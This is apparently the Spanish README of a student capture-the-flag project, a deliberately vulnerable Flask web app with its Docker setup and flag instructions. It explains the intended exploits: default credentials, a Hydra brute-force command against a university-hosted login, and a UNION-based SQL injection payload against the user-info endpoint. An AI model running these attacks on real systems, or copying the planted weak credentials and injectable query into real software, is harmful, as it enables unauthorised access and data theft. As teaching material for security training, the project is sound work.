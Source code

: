<div align="center">
  <h2><strong>Aplicacion Web Vulnerable - Equipo ESHS - DSA</strong></h2>
  
  <a href="https://github.com/reinosofrancisco/Aplicacion-Vulnerable-2022"><img src="https://img.shields.io/badge/DSA-v1.0-blue?style=plastic&logo=github"/></a>   



<table>
  <tr>
    <th>Autores</th>
    <th>Apellido</th>
    <th>Nombre</th>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Adra</td>
    <td>Federico</td>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Alfonsin</td>
    <td>Jeronimo</td>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Reinoso</td>
    <td>Francisco</td>
  </tr>
</table>


---

## Dockerfile

```docker
FROM python:3.6.6-alpine3.8

ENV FLASK_APP /www/app.py
ENV FLASK_DEBUG 1
ENV FLASK_RUN_PORT 8888

RUN apk add bash gcc musl-dev mysql mariadb-dev build-base

ADD entrypoint.sh /entrypoint.sh

RUN mkdir /www

EXPOSE 8888

ENTRYPOINT [ "/entrypoint.sh" ]
```

## Docker-Compose.yml

```yml
version: '3'

services:

  login:
    container_name: trabajo-integrador-eshs
    image: practica2
    restart: always
    volumes:
      - "./python_login/www/:/www/"
    ports:
      - 42069:8888

```

## ¿Como setear una flag?

Ir al archivo `trabajo_integrador/ESHS/python_login/www/app.py` 

La flag esta definida en el codigo. <br>
Se debe eliminar el archivo `trabajo_integrador/ESHS/python_login/www/test.db` <br>
Descomentar la siguiente seccion de codigo en _app.py_ :
```python
#FLAG = "flag{FLAG_NAME}" 
#db.create_all()
#db.session.add(User(username='admin', password='admin',email='',role='adminFalso'))
#db.session.add(User(username='su', password='qwerty',email='yonosoyCarlos@carlosMail.com',role='adminReal'))
#db.session.add(User(username='carlos', password='bien hecho', email='felicitaciones@quetengasunhermosodia.com.ar.us.xDDDD.saludosbrodarrrrrrrrr',role=f'{FLAG}'))
#db.session.commit()
```

Si por alguna razon no tiene docker corriendo:
```
sudo systemctl unmask docker
systemctl start docker
```

Ejecutar `./run.sh` para correr la aplicacion. <br>
Detener la aplicacion y volver a comentar el codigo anteriormente mencionado. <br>
Recuerde ejecutar `docker-compose down`. <br>
Volver a ejecutar `./run.sh` para correr la aplicacion. <br>

## ¿Como explotar la vulnerabilidad?

Vulnerabilidad en el `/login` <br>
   El usuario ingresa con credenciales por defecto. <br>
   Estas credenciales son las que se utilizan para el login: <br>
    <table>
      <tr>
        <th>Username</th>
        <th>Password</th>
      </tr>
      <tr>
        <td>admin</td>
        <td>admin</td>
      </tr>
    </table>

Vulnerabilidad en el `/loginCarlos` <br>
   El usuario ingresa con credenciales por muy usuales. <br>
   Si bien el usuario es medianamente mas rebuscado, sigue siendo el usuario por defecto en varias aplicaciones. <br>
   Estas credenciales son las que se utilizan para el loginCarlos: <br>
    <table>
      <tr>
        <th>Username</th>
        <th>Password</th>
      </tr>
      <tr>
        <td>su</td>
        <td>qwerty</td>
      </tr>
    </table>

    Notar que como los mensajes de error son relativamente aleatorios, uno pensaría que esto inutiliza Hydra. Sin embargo, dejamos de todas formas el mismo mensaje de error en caso de que el **username** sea correcto. <br>
    Una vez averiguado el mismo, el mensaje de error para distintas contraseñas sí es igual:
    <span style="color: #FF4000;">"Clave incorrecta! :D"</span>

    Ejemplo con Hydra:
    ```
    hydra -l su -P rockyou.txt -V "https-form-post://eshs2022.dsa.linti.unlp.edu.ar/loginCarlos:username=^USER^&password=^PASS^:F=Clave incorrecta"
    ```

Una vez que se explota la vulnerabilidad, se obtiene el <br> `/infoUsuario?username=su` <br>
En este caso, se puede hacer una Inyeccion SQL para obtener datos de la Base de Datos. <br> 
Si queremos acceder directamente a la flag, usamos el payload:

   ```
   http://localhost:42069/infoUsuario?username=asd' UNION SELECT username,username,role,role,role FROM user WHERE username!='admin' AND username!='su
   ```
    Se puede ver entonces que la flag se encuentra como: <br>
    `<a href="mailto:flag{FLAG_NAME}">flag{FLAG_NAME}</a>`


## Hint para el CTF

La hint que proponemos es: <br>
Pista para la pistita -> 64-62-58-45-32

</div>
